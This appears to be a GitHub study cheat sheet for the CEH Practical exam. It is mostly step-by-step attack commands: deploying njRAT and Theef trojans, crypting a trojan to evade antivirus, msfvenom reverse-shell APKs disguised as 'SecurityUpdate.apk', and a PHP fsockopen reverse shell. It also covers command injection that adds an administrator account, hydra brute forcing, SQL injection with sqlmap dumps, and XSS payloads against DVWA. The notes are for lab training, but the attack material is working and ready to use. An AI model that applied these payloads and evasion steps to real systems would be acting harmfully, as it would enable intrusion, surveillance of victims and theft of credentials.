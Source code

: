 # CEH-Practical-Notes

# Network Hacking
<details>
  <summary>Netdiscover </summary>

* Scan Entire Network for ALive host using ARP
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```

</details>

<details>
  <summary>Nmap </summary>

* To scan the live Host
```console

nmap -sP x.x.x.0/24        	{Live host}
nmap -PR -sn x.x.x.0/24        	{Live host without port scan - ARP scan}
nmap -sC -sV x.x.x.0/24        	{Script + version}    
nmap -O x.x.x.x                 {To find the OS}
nmap -p- x.x.x.1/24        	{open port}
nmap -p port x.x.x.1/24 --open  {find the Specific open port}
nmap -T4 -A -v www.moviescope.com/x.x.x.10/24  {Aggressive scan}
nmap --script <script_name> -p <port> x.x.x.0/24 {using nse script}
nmap -sC -sV -p- -A -v -T4 x.x.x.0/24 {script+version+ports+os scan}
nmap -T4 -A -v -oN ouput.txt x.x.x.0/24  {Normal output in a file}

nmap -Pn -A x.x.x.1/24 -vv --open {Comprehensive Scan}
nmap -p 3389 -iL ip.txt | grep open (Check RDP enabled after getting ip)
nmap -p 3306 -iL ip.txt | grep open (Check MySQL service running)



nmap -sn x.x.x.0/24 -iL ips.txt {No of hosts up}

```
</details> 

# Android Hacking
<details>
  <summary>ADB</summary>

* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>


# Steganography
  <details>
    <summary>OpenStego</summary>

* To hide the Text in image

```console
Hide Data -> Message file -> text & Cover file -> image file
Output -> Desktop -> island -> Hide data
```

* To unhide the Hidden Text

```console
Extract Data -> Input -> islan.png
Output -> Desktop/NewTextDocument.txt
```

</details>

<details>
    <summary>Keywords</summary>

* Img hidden      - Openstego
* .hex            - Cryptool
* Whitespace      - SNOW
* MD5             - Hashcalc & MD5 Calculator
* Encoded         - BCTexteditor
* Volume & mount  - Veracrypt

</details>

# Malware threat analysis
<details>
<summary>Gain access to the target system using Trojans</summary>

```console

[W11] - attacker
	
Launch njRAT v0.7d.exe
port 5552
Click Builder (lower left -corner)
Enter Ip of attacker,check the optionRegisty StarUp and clickBuild.
Save As malacious.exe on Desktop and share

[WS22] - Victim
Copy malacious.exe to Desktop and Run

[W11]
Establishes a persistent connection with the victim machine
Right click on detected victim and click Manager
"Process Manager" -> Right click -> Kill/Delete/Restart
Connectoin -> Right click -> Kill Connection
Registry -> Right click -> associated registry files
Remote Shell -> launch remote conn on Win 22

cmd>ipconfig/all -> lower left conrner
Services -> start/pause/stop service
Close Manager window

Right click on victim name -> Remote Desktop (Launches remote connection)
select Mouse Checkbox -> remotely interact with the victim machine using the mouse.
Right click on victim name ->Remote Cam -> Microphone

[WS22]
As a victim perform some activity on machine, create a secret file and save.

[W11]
Right click on victim name -> Keylogger -> Able to view all keystrokes performed by victim
Right click on victim name -> open chat -> send msg to victim

```
</details>

<details>
<summary>Create a Trojan Server using Theef RAT Trojan</summary>
    Allows remote access to the system via port 9871 & 6703.

```console
[WS22] - Victim
Run Theef/Server210.exe 

[W11] - Attacker
Run Theef/Client210.exe
Victims ip & port 6703 
Estblish connection and perform activity, client will track all.
Computer info/ PC details/Home/Nw Info
```
</details>

<details>
<summary>Create a Virus using JPS virus maker tool and infect the target system</summary>

Features - auto-start/shutdown/disable security check, lock mouse, keyboard, destroy protected storage & terminate windows

```console

[Win11]
Luaunch JPS executable
Selection options you with to do --> Righ Arrow -> To change windows password & other --> right arrow for more features
Create virus
Share the virus created

[WS19]
Launch virus created
Open task manager - its disable - to verify
Restart to see pwd change affected
```
</details>
<details>
<summary>Hide a Trojan using SwayzCrypto</summary>

```console

[W11]
https://www.virustotal.com -> upload & see no of vul identified -> 59/69 vul shows
Run SwayzCryptor.exe ->Select file -> Desktop/Test.exe ->check the optionsStart up,Mutex, andDisable UAC, and then clickEncrypt.
Save file dialog -> cryptedfile.exe 
https://www.virustotal.com -> upload crypted.exe -> confirm upload -> only few anivirus will detect its malacious file

Start njRAT v0.7d.exe
Share CryptedFile.exe via shared folder

[WS22]
copy crypted.exe from shared to desktop -> run -> Attacker machine establishes a persistent connection with the victim machine.

[W11]
can observe that the connection has been established with the victim machine.

```

</details>

<details>
<summary>Capture and Analyze IoT Traffic using Wireshark</summary>

```console
[WS19]
Launch \Bevywise IoT Simulator\Bevywise_MQTTRoute_Win_64.exe file.
Command prompt will appear, can see the TCP port using 1883.

To create IoT devices, we must install the IoT simulator on the client machine.
[WS22]

Launch \Bevywise IoT Simulator\Bevywise_IoTSimulator_Win_64.exe
Launch C:\Bevywise\IotSimulator\bin\runsimulator.bat -> select Microsoft Edge browser and click OK to open the URL http://127.0.0.1:9000/setnetwork?network=HEALTH_CARE.
View the default network named HEALTH_CARE and several devices.

Create a virtual IoT network and virtual IoT devices. 
select the +New Network option.
CEH_NETWORK -> Create 
Broker IP Address as: [WS19_IP]
- the created network will interact with the server using MQTT Broker.

Add blank Device
Device name:Sensor, enter Device Id:TS1, Description and click on Save.
To connect the Network and the added devices to the server or Broker, click on the Start Network red color circular icon in right corner.

When a connection is established between the network and the added devices and the web server or the MQTT Broker, the red button turns into green.

[Ws19]
can see a connection request from machine WS22 machine for the device TS1.

[WS22]
Create Subscribe command for the device Sensor.
Click on the Plus icon in the top right corner and select the Subscribe to Command option.
The Subscribe for command - TS1 popup opens. Select On start under the Subscribe on tab, type High_Tempe under the Topic tab, and select 1 Atleast once below the 
Qos option. Click on Save.
can see the Topic added under the Subscribe to Commands section.
 will capture the traffic between the virtual IoT network and the MQTT Broker to monitor the secure communication.

 Wireshark
 Note: Make sure you have selected interface which has WS22 as the IP address.

[WS19]
Chrome - http://localhost:8080

Signin
Devices Menu 
send the command to TS1 using the High_Tempe topic.
Command Send section, select Topic as High_Tempe, type Alert for High Temperature and click on the Send button.

[S22]
Verify the message is received

wireshark
filter: mqtt

```
</details>

<details>
<summary>malware analysis</summary>

* Static malware analysis using hybrid

   https://www.hybrid-analysis.com -> upload virus and analyse

* Strings search using BinText
 
[WS11]
    
Run bintext.exe ->String searching tool
select Advance view
select "malacious.exe" from shared drive


* Identify packaging and obfuscation methods using PEid

[W11]

Launch PEiD.exe
Open virus file
click Open, PEiD analyzes the file and provides information


* Analyze ELF executable file using Detect It Easy (DIE)

Detect It Easy automatically scans the file and result appears showing the Operating system, compiler and language details in the middle pane

[W11]

Launch die.exe
Open ELF Test File
File info/Hash/Entropy and other details


* Portable executable (PE) information of a malware executable file using PE Explorer

Launch PE.Explorer_setup.exe
Open virus.exe
On top
Data Directories ->to view and edit the virtual address and size of the chosen directory describing provisions of parts of the code.
Section Headers->


* File dependencies using Dependency Walker

Launch depends.exe
open file.exe
Observer Import and Export section.


* Malware disassembly using IDA

[W11]

Launch IDA Freeware
IDA: Quick start -> New -> select malicious file
Portable executable for 80386 (PE) [pe64.dll] option selected -> OK
IDA View-A tab -> Right click -> Text view

Disassembling and Debugging Tools\IDA, Copy the qwingraph.exe file and paste it in IDA’s installation location. C:\Program Files\IDA Freeware 7.7
IDA-> View-> Graphs-> Flow Chart
View -> Graphs -> Function calls
HexView-1tab -> view hex value of the malicious file
Structure
Enums

* Malware disassembly using OllyDbg

Launch OLLYDBG.EXE

File file.exe
Output appears in -> CPU - main thread, module tini

View-> Log
Log data appears ->displays the program entry point and its calls to known functions

View->Executable modules
View->Memory
View->Thread


* Malware disassembly using Ghidra

Run ghidraRun.bat

If a Command Prompt window appears, then type C:\Program Files\jdk-17.0.2+8 and press Enter
Ghidra: NO ACTIVE PROJECT -> File -> New Project
Non-Shared Project -> Proj Name: Malware Analysis -> Finish
File->Import file -> file.exe -> Import Result Summary -> OK

file.exe is added as a children node under the Malware Analysis project
Double click file.exe -> Analyse -> Yes
under Symbol Tree, you can observe various components of face.exe file such as Imports, Exports, Functions and Labels

Expand Imports -> view DLL files

Program Tree->Headers double click
-> Double click .rdata

</details>

#Web server hacking
<details>
	<summary>using Nmap Scripting Engine (NSE)</summary>
	
	```console
	[linux]
	nmap -sV --script=http-enum [target]
	 
	To discover the hostnames that resolve the targeted domain.
	nmap --script hostmap-bfk -script-args hostmap-bfk.prefix=hostmap- [target]

	Perform HTTP trace on the targeted domain
	nmap --script http-trace -d [target]
	This script will detect a vulnerable server that uses the TRACE method by sending an HTTP TRACE request that shows if the method is enabled or not.

	check whether Web Application Firewall is configured on the target host or domain
	nmap -p80 --script http-waf-detect [Target]
	determine whether a web server is being monitored by an IPS, IDS, or WAF.
	This command will probe the target host with malicious payloads and detect the changes in the response code
        ```
	<summary>Linux </summary>
 	sudo su
	
	uniscan -h
	uniscan -u [target-url] -q
	-q -> to search for the directories of the web server.
	
	uniscan -u [target-url] -we
	Here -w and -e are used together to enable the file check (robots.txt and sitemap.xml file).
	
	uniscan -u [target-url] -d
	to start a dynamic scan on the web server.
	obtaining more information about email-IDs, Source code disclosures, and external hosts, web backdoors, dynamic tests.
	
	File system ->
	usr --> share --> uniscan --> report.
 
</details>

#Reference
* Analyze IOT device
https://ceh-practical.cavementech.com/module-18.-iot-and-ot-hacking/2.-capture-and-analyze-iot-traffic

#  Mobile Hacking
<details>
	<summary># Exploit the Android Platform through ADB using PhoneSploit</summary>
	```console


 	```
</details>

<details>
	<summary># Exploit the Android Platform through ADB using PhoneSploit</summary>
	```console

	[Linux]
	sudo su
	cd PhoneSploit
	python3 -m pip install colorama
	python3 phonesploit.py
	3  	-> Connect a new phone
	Enter a phones ip address: [andoirdIP]
	connection time out error :  Type 3 continue until u get Phone Ip address option
	Connected at port 5555
	
	(main_menu)> 4  	-> Access Shell on a phone
	Device name: [AndroidIP]
	pwd		-> Root dir
	ls
	cd sdcard
	ls
	cd Download
	ls
	
	Note: Note down the location of images.jpeg (in this example, /sdcard/Download/images.jpeg). We will download this file in later steps.
	exit
	
	(main_menu)>7    ->Screen Shot a picture on a phone.
	[AndoridIP]
	/home/attacker/Desktop		-> save, screen.png is stored in Desktop
	
	(main_menu)>14 	 ->list all apps on the phone
	[AndoridIP]
	(main_menu)>15 	 ->choose Run an app
	com.android.calculator2
	
	[android]
	see that the calculator app is running, and that random values have been entered
	```
</details>

<details>
	<summary># Hack an Android Device,Creating Binary Payloads</summary>
	
	```console
 	[Linux]
    	sudo su
	cd
	service postgresql start
	msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=[PIP] -R > Desktop/Backdoor.apk 
	mkdir /var/www/html/share
	chmod -R 755 /var/www/html/share
	chown -R www-data:www-data /var/www/html/share
	service apache2 start
	cp /root/Desktop/Backdoor.apk /var/www/html/share/
	msfconsole
	use exploit/multi/handler
	show options
	set LHOST [PIP]
	exploit -i -z  -> run exploit as background job
	
	[Android]
	launch http://[PIP]/share
	download and run Backdoor.apk
	
	[Linux]
	The meterpreter session has been opened successfully
	sessions -i 1
	sysinfo
	ipconfig
	pwd
	cd /sdcard 
	pwd -> /storage/emulated/0.
	ps
 	```
</details>
    
<details>
	<summary># Hack an Android Device,Creating APK File - AndroRAT</summary>
	
	```console
	[linux]
	sudo su 
	cd AndroidRat
	python3 androidRAT.py --build -i [PIP] -p 4444 -o SecurityUpdate.apk
	--build: is used for building the APK
	-i: specifies the local IP address
	cp /home/attacker/AndroidRAT/SecurityUpdate.apk /var/www/html/share
	service apache2 start
	python3 androidRAT.py --shell -i 0.0.0.0 -p 4444
        --shell: is used for getting the interpreter
        -i: specifies the IP address for listening (here, 0.0.0.0)

	[Android]
	launch http://[PIP]/share
	save and open SecurityUpdate.apk
	
	[parrot]
	Interpreter session has been opened successfully.
	help
	deviceinfo
	getSIM inbox
	getMACAddress
	exit
 	```
</details>  


# Web Application hacking

<details>
	<summary>Banner grabbing</summary>
	
	```console
 	   nmap -T4 -A -v [Target Web Application] 
     	   OR
	   telnet www.moviescope.com 80
	   GET / HTTP/1.0
	```
</details>

<details>
	<summary>Reconinanace using whatweb</summary>
	
	```console
	  whatweb -v [Target] 
	  whatweb --log-verbose=Report www.moviescope.com
	```
</details>

<details>
<summary>Web Server Directories</summary>
	
```console
 nmap -sV --script=http-enum
 look under http-enum
 Find dirs
 gobuster dir -u [Target Website] -w /home/attacker/Desktop/common.txt

 OR
 python3 dirsearch.py -u [Target]
 python3 dirsearch.py -u http://www.moviescope.com -e aspx   {spec extn}
 python3 dirsearch.py -u http://www.moviescope.com -x 403    {dir bruteforce excluding port 403}

``` 
</details>
<details><summary>Hack a Web Application using WPScan and Metasploit</summary>

```console

    [WS22]
    Launch wampserver

	[parrot]
	sudo su
	cd
	wpscan --api-token [API Token] --url http://[WSIP]:8080/CEH --enumerate u
	--enumerate u: specifies the enumeration of usernames.

	Obtained the usernames stored in the database.

    To find user's passwords.

	service postgresql start -> first start the PostgreSQL service.
	msfconsole
	use auxiliary/scanner/http/wordpress_login_enum 
	show options
	set PASS_FILE /home/attacker/Desktop/CEHv12 Module 14 Hacking Web Applications/Wordlist/password.txt 
	set RHOSTS [WIP]
	set RPORT 8080
	set TARGETURI http://[WSIP]:8080/CEH 
	set USERNAME admin -> take any username obtained from above
	run
```
</details>

<details>
<summary>Perform remote os command injection (dvwa web) and get the content from pin file</summary>

```console
    [Win 11]
	http://[WSIP]:8080/dvwa/login.php
	test/abc123
	Command Injection
	
	Ping a device - [W22IP] -> successfully pings the target machine
	Try with ;/&&/&/ 
	| hostname          -> error -> Change security level to low
	| hostname 			-> return machine name, any other details from the system   
	| whoami
	| tasklist 			-> to view the processes running on the machine.
	| Taskkill /3112 /F -> Forcefully terminate the process

	/F- Forecefully terminate
	
	| dir C:\ 			-> files and directories on C:\
	| net user  		-> User account information
	| net user Test /Add ->	Attempt to add a user account remotely.
	| net user 			-> View the new user account
	| net user Test 	-> new account information
	
	Does not have administrative privileges. It has an entry called Local Group Memberships.
	
	| net localgroup Administrators Test/Add  -> To grant administrative privileges
	| net user Test     -> Test is now an administrator account under the Local Group Memberships option.
		
	Check able to connecto to Target machine with new user with RDC
	RDC -> [Target IP]
	Username: Test - connect
```
</details>

<details>
<summary>Perform file upload (dvwa web)</summary>

```console
    
	[linux]
	sudo su
	cd
	msfvenom -p php/meterpreter/reverse_tcp LHOST=[PIP] LPORT=444 -f raw
	Copy payload and paste it into upload.php
		
	Open http://WSIP:8080/dvwa/login.php
	admin/password
	security - low
	File upload - upload the upload.php
	
	[linux]
	sudo su
	cd
	msfconsole
	use exploit/multi/handler
	set payload php/meterpreter/reverse_tcp
	set LHOST [PIP]
	set LPORT 444
	run
	
	Firefox
	Open http://[WSIP]:8080/dvwa/hackable/uploads/upload.php
	
	Terminal - Meterpreter session has successfully been established with the victim system
	sysinfo
	
	----
	if securty set to high
	File upload - upload the high.jpeg
	
	Command Injection
	Ip address: |copy C:\wamp64\www\DVWA\hackable\uploads\high.jpeg C:\wamp64\www\DVWA\hackable\uploads\shell.php + Submit
	
	Terminal
	sudo su
	cd
	msfconsole
	use exploit/multi/handler
	set payload php/meterpreter/reverse_tcp
	set LHOST [PIP]
	set LPORT 2222
	run 
	
	Firefox: http://[WSIP]:8080/dvwa/hackable/uploads/shell.php
	Terminal: Meterpreter session has successfully been established with the victim system.
	sysinfo
```

</details>

<details>
<summary>DVWA</summary>

```conose
hydra -l admin -p pasword 10.0.0.49 http-post-form="/login.php:username=admin&password=^PASS^&Login=Submit:Login failed"

hydra 10.0.0.49 http-form-post "/login.php:username=^USER^&password=^PASS^&Login=submit:Login failed" -l admin -p password

NOT WORKING
hydra 10.0.0.49 http-form-post "/login.php:username=^USER^&password=^PASS^&Login=Login:H=cookie\:PHPSESSID=hokuv28srabuqss7p766lttp75; security=low:F=Login failed" -l admin -P /home/sbkali/Downloads/pass.txt

1. Vul - Brute-force 
security=low
hydra 10.0.0.49 http-form-get "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=cookie\:PHPSESSID=hokuv28srabuqss7p766lttp75; security=low:F=Username and/or password incorrect." -l admin -P /home/sbkali/Downloads/pass.txt

security=medium
hydra 10.0.0.49 http-form-get "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=cookie\:PHPSESSID=hokuv28srabuqss7p766lttp75; security=medium:F=Username and/or password incorrect." -l admin -P /home/sbkali/Downloads/pass.txt -V -I --> verbose

security=high
NOT WORKING
------------------------------------------------------------------------------------------------------------------------
Command Injection

check which char is accepting ;/&/|/||/&&

low
localhost
localhost | whoami
localhost | php -r '$sock=fsockopen("10.0.0.16",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

nc -nvlp 4444

medium

localhost | php -r '$sock=fsockopen("10.0.0.16",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

high
change secrity by intercepting then it will work
------------------------------------------------------------------------------------------------------------------------
File upload
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.0.16 LPORT=444 -f raw > shell.php

msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.0.0.16
set LPORT 444
exploit

1. update Content-Type: image/jpeg 

Upload shell.php -> File is uploaded
Now access that file by entering the full path 10.0.0.49/hackable/uploads/../../hackable/uploads/shell.php

Reverse shell is open in msfconsole
sysinfo
whoami
pwd

High
add GIG 98 to shell.php
mv shell.php shell.php.jpeg
Similary intercept the req and update the security it will work for all. if only jpeg accepted then intercept and update Content-Type: image/jpeg -
------------------------------------------------------------------------------------------------------------------------
' or 1=1#   - Displays result

Find no of columns --> 2
' order by 1# - No error
' order by 1# - No error
' order by 3# -- error

' union select @@version, null#  --> 10.1.26-MariaDB-0+deb9u1
' or 0=0 union select null, user() #
' or 0=0 union select null,concat(user, password) from users #

First name: admin
Surname: admin

SQLMAP

1. sqlmap -u "http://10.0.0.49/vulnerabilities/sqli/?id=1&Submit=Submit#" --dbs --cookie="PHPSESSID=hokuv28srabuqss7p766lttp75; security=low" --batch
available databases [2]:
[*] dvwa
[*] information_schema

2. sqlmap -u "http://10.0.0.49/vulnerabilities/sqli/?id=1&Submit=Submit#" -D dvwa --cookie="PHPSESSID=hokuv28srabuqss7p766lttp75; security=low" --batch --dump-all

Blind Injection
' or sleep(5)#
1 or sleep(5)#

1 1=0 and union select null, concat(user,password) from users #
-------------------------------------------------------------------------------------------------------------
XSS-DOM
alert(1)
Medium: </select><video><source onerror="javascript:alert(1)"></video>
High: #<script>alert(1)</script>  --> commented javascript

Reflected

Low: <script>alert(1)</script>
Medium : <img src=x onerror=alert(1)>
High: <img src=x onerror=alert(1)>

Stored
low: <script>alert(1)</script>
medium: <img src=x onerror=alert(1)>
high: <img src=x onerror=alert(1)>
-------------------------------
echo -n "token" | wc -c --> 32
echo 'ChangeMe' | tr 'A-Za-z' 'N-ZA-Mn-za-m''
PunatrZr
echo -n "PunatrZr"| md5sum  -> same token 

echo 'success' | tr 'A-Za-z' 'N-ZA-Mn-za-m''
dsfsdf
echo -n "dsfsdf"| md5sum  -> diff token

put success and add diff token in burpsuit

```
</details>

